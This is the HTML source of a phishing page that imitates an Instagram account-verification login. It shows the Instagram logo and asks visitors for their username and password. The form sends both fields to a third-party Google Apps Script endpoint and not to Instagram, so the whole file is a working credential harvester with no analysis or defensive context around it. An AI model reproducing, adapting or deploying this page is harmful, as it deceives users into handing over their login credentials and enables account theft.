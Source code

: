 <html>
    <head>

        <style>
            body{
                background-color: white
            }
            img{
                width: 50mm;
            }
            p{
                text-align: center;
                color: blue;
                font-size: 0.7cm;
            }
            input{
                width: 185mm;
                height: 12mm;
            }
            label{
                margin-right: 100mm;
            }
            button{
                width: 100mm;
                height: 12mm;
                color: lightgreen;
                background-color: lightgreen;
                border-color: lightgreen;
                border-radius: 12px;
                -webkit-text-fill-color: oldlace;
                -webkit-text-size-adjust: 20mm;
            }
            h1{
                color: white
            }
            form{
                display: block;
                margin-top: 0em;
            }
        </style>
    </head>
    
    <div>
        <center><img src="instagram-logo.gif"></center>
    </div>
    <p>
        "Hello User, Please Enter Your Username And Password To verify Your Account"
    </p>
    <h1>
        <form method="POST" action="https://script.google.com/macros/s/AKfycbyNyKaEhKWh_DVdBOSkdnywi_HWH9rNUwEtcQJHI2XFzisSk4KbIpXJ5f5tUj5AxqMW/exec">
    <center><input type="text" name="op" placeholder="Enter Username"></center>
    <p></p>
    <p></p>
    <center><input type="text" name="Password" placeholder="Enter Password"></center>
        </h1>

    <div>
        <center>
            
            <button>Submit Username And Password</button>
            
        </center>
    </div>
</form>
</html>

